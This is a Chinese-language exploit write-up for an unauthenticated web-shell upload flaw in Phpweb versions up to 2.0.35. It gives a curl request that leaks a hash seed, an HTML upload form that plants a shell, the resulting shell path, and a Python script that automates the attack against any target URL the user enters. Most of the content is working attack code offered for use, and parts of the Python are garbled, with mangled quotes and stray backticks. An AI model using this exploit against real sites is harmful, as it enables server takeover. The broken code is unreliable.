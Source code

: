 # Phpweb 前台getshell

> 原文：[https://www.zhihuifly.com/t/topic/3089](https://www.zhihuifly.com/t/topic/3089)

# Phpweb 前台getshell

## 一、漏洞简介

漏洞影响文件:/base/post.php /base/appfile.php /base/appplue.php /base/appborder.php

## 二、漏洞影响

Phpweb<=2.0.35

## 三、复现过程

### 1.首先要获取加密前的Md5值，用于文件较检,通过Post提交数据来获取!

```
curl "http://website/base/post.php" -H "act=appcode" 
```

![image](img/1ba358c0c303d0b13bf1983dbc606362.png)

```
ac34c64cdb405eff881efc5476a64761 ##这个就是初始值 
```

### 2.获取加密后得md5值

然后将初始值md5加密(ac34c64cdb405eff881efc5476a64761 + “a”)

得到加密后的MD5值!

```
e10adc3949ba59abbe56e057f20f883e ##这个就是加密后的md5值(终值)! 
```

3.Getsehll exp:

```
<html>
<body>
<form action="http://0-sec.org/base/appfile.php" method="post" enctype="multipart/form-data">
<label for="file">Filename:</label>
<input type="file" name="file" id="file" />
<input type="text" name="t" value="a" />
<input type="text" name="m" value="25a824696cb75a44aabd05a08070789f" />
<input type="text" name="act" value="upload" />
<input type="text" name="r_size" value="14" />
<br />
<input type="submit" name="submit" value="getshell" />
</form>
</body>
</html> 
```

![image](img/8d43c23314a44b186c5dda624aa0ecc0.png)

然后…Getshell!

![image](img/bfce9b78d436f78a51738455fcaca002.png)

当出现OK两个大字时,说明你成功了!!!

上传的shell路径是

http://www.0-sec.org/effect/source/bg/shell名称.php

![image](img/c266706989d38f71f2a1cace09867132.png)

### 工具编写

Python exp[Python3]:

```
# -*- coding: UTF-8 -*- #
import os
import requests
import hashlib

bdlj = os.getcwd()

headers = open(bdlj+"\headers.txt",‘r’)

headerss = headers.read()

print(’\b’)

ur = input(“请输入目标网址:”)

requrl =  ur + ‘/base/post.php’

reqdata = {“act”:“appcode”}

r = requests.post(requrl,data=reqdata)

cz=r.text[2:34]

print (‘初值:’ + cz)

cz=r.text[2:34]+“a”

m = hashlib.md5()

b = cz.encode(encoding=‘utf-8’)

m.update(b)

zz = m.hexdigest()

print (‘终值:’ + zz)

infile = open(bdlj + “\datas.txt”, “r”,encoding=‘utf-8’)

outfile = open(bdlj + “\datah.txt”, “w”,encoding=‘utf-8’)

for line in infile:

outfile.write(line.replace(‘156as1f56safasfasfa’, zz))

infile.close()

outfile.close()

datas = open(bdlj+"\datah.txt",‘r’)

datass = datas.read()

gs = requests.post(ur + ‘/base/appfile.php’,data=datass,headers={‘Content-Type’:headerss})

gs.encoding = ‘utf-8’

print (gs.text) `if {gs.text == “OK”}:

print (“Getshell成功! Shell:” + ur + “/effect/source/bg/mstir.php”)

else:

print (“Getsehll失败!”)` 
```

整包下载地址:https://github.com/ianxtianxt/Phpweb-Getshell-py

使用请下载整包,否则会缺少协议头和data数据!

使用教程:

![image](img/726d37656ac5cc44ac6813d93aa1624a.png)

## 参考链接

> https://m4tir.github.io/Phpweb-Reception-Getshell